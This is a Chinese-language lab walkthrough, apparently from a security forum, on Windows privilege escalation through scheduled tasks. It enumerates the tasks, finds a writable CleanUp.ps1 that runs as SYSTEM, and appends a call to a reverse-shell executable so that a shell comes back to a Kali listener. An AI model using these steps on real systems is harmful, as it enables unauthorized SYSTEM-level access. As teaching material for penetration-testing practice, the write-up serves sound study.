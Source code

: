 没有简单的方法来枚举属于其他用户作为低特权用户帐户。

列出用户可以看到的所有计划任务：

```php
 schtasks /query /fo LIST /v
```

在PowerShell中：

```php
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

通常我们必须依赖于其他条件，例如找到一个脚本或日志文件来指示正在运行计划任务。

### 实操

#### 1. 在C:\\DevTools目录中，有一个名为`CleanUp.ps1`的PowerShell脚本。查看脚本：

```php
type C:\DevTools\CleanUp.ps1
```

![image-20210709143850738](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-98fdfa6a4299549db9760eeae427330aa6d8d9cb.png)

![image-20210709143906703](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-53ca014332b49bbd82d7d37420502aac0c1c21b4.png)

#### 2. 此脚本似乎以系统用户的身份运行每分钟。我们可以使用accesschk.exe检查本脚本权限

```php
C:\Users\user\Desktop\accesschk.exe /accepteula -quvw user  C:\DevTools\CleanUp.ps1
```

看来我们有能力写到这个文件。

![image-20210709144146284](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b9b98d56a52ec206c14acfd0c46ee045c8d2fe86.png)

#### 3. 备份脚本：

```php
copy C:\DevTools\CleanUp.ps1 C:\Temp\
```

#### 4. kali进行监听

#### 5. 使用echo将对反向shell可执行文件的调用附加到脚本末尾：

```php
echo C:\Users\user\Desktop\a002.exe >>  C:\DevTools\CleanUp.ps1
```

![image-20210709144339005](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f27c1cc53a578b860e7a3e17771851ed4caa2474.png)

#### 6. 等待预定任务运行(它应该运行每分钟)进行反弹shell

![image-20210709144400963](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-cd5b0bf87307a12b905c5ed88ab767025f258351.png)
